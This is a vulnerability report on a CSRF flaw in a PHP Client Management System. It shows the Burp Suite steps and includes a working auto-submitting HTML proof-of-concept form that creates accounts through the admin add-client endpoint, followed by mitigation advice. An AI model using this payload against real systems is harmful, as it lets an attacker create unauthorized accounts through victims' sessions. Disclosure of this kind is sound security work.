 # CSRF Vulnerability: Creating Fake Users in Client Management System

## Introduction
Cross-Site Request Forgery (CSRF) is an attack where an authenticated user is tricked into submitting a malicious request to a web application. This can lead to unauthorized actions being performed on behalf of the user . In this report, we demonstrate how CSRF can be used to create fake users in a **Client Management System** and suggest mitigation strategies.

## Environment Setup
- Locally hosted **Client Management System** using **MySQL** and **PHP**.
- Functionality for adding clients and their services.

## Steps to Exploit CSRF

### 1. Login as Admin
Using provided credentials, log in to the Client Management System.

![Login as admin](https://github.com/user-attachments/assets/a52b86de-a945-424a-89fc-ef538af11ac0)

### 2. Add a New Client
- Select **Add Client** option.
- Enter the required client details.

![Adding new client](https://github.com/user-attachments/assets/f4589658-3bc8-485b-beec-f58280c63c91)
![Enter the client details](https://github.com/user-attachments/assets/a0a89e2d-743a-4bf0-887d-24ed8c9629d5)

### 3. Capture the Client Adding Request
1. Navigate to the **Save** button.
2. Set up **Burp Suite** to intercept requests.
3. Click **Save** and capture the HTTP request before it reaches the server.
4. Send the captured request to the **Repeater** tab for analysis.

![Capturing the request in Burp](https://github.com/user-attachments/assets/2c3978f6-8518-4ca1-89c3-cc7a22a7cebe)
![Send to repeater](https://github.com/user-attachments/assets/be30ff6c-4dc5-4f18-af61-11bd81c526d1)

## CSRF Exploit Code
Below is the **HTML PoC** for CSRF attack:

```html
<html>
  <body>
    <form action="http://localhost/clientms/admin/add-client.php" method="POST">
      <input type="hidden" name="accounttype" value="Active Account" />
      <input type="hidden" name="cname" value="moulimurugan" />
      <input type="hidden" name="comname" value="kppr" />
      <input type="hidden" name="address" value="vijayamangalam" />
      <input type="hidden" name="city" value="erode" />
      <input type="hidden" name="state" value="tamil" />
      <input type="hidden" name="zcode" value="638026" />
      <input type="hidden" name="wphnumber" value="968560710" />
      <input type="hidden" name="cellphnumber" value="6931052465" />
      <input type="hidden" name="ophnumber" value="9638560410" />
      <input type="hidden" name="email" value="moulimurugan@gmail.com" />
      <input type="hidden" name="password" value="moulimurugan" />
      <input type="hidden" name="websiteadd" value="clientmsdb" />
      <input type="hidden" name="notes" value="Nil" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Creating Fake Users
- Modify existing details to create **fake users**.

![Adding fake user 1](https://github.com/user-attachments/assets/4b45fb41-3c40-4a6b-9dcf-525fc02eceaa)
![Adding fake user 2](https://github.com/user-attachments/assets/feb6cc10-f6b7-4276-ba5f-41e026f3fba2)

### Testing the CSRF PoC
1. Open the generated **CSRF PoC link** in a browser.
2. The webpage opens with a **Submit** button.
3. Click **Submit**, and the request executes, creating fake users.

![Open PoC in browser](https://github.com/user-attachments/assets/68b10332-3cc8-4d9c-8ccf-46af830ad9ba)
![Hit submit request](https://github.com/user-attachments/assets/59d29d18-7911-4f2b-b115-38946be339f8)

## Confirming Fake Clients Creation
- After submission, fake clients appear in the admin dashboard.

![Fake clients created](https://github.com/user-attachments/assets/ce96ec9b-4f7d-470c-89ed-a63bb79a341f)
![Multiple users created](https://github.com/user-attachments/assets/878be82c-87de-4201-aa4f-c08ed785fc20)

## Mitigation Strategies
To prevent CSRF attacks, implement the following measures:

1. **CSRF Tokens**
   - Use **anti-CSRF tokens** in all form submissions and verify them on the server-side.
2. **SameSite Cookies**
   - Set session cookies with `SameSite=Strict` or `SameSite=Lax` attributes.
3. **Referer and Origin Header Validation**
   - Validate the **Referer** and **Origin** headers before processing requests .
4. **User Authentication Checks**
   - Require **CAPTCHAs** for critical actions to prevent automated attacks .
5. **Restrict HTTP Methods**
   - Use `POST` for sensitive actions and **avoid processing GET requests** with side effects .

## Conclusion
This report demonstrates how CSRF vulnerabilities can be exploited to create unauthorized accounts in a **Client Management System**. Implementing the suggested mitigation strategies will help secure the application against such attacks.
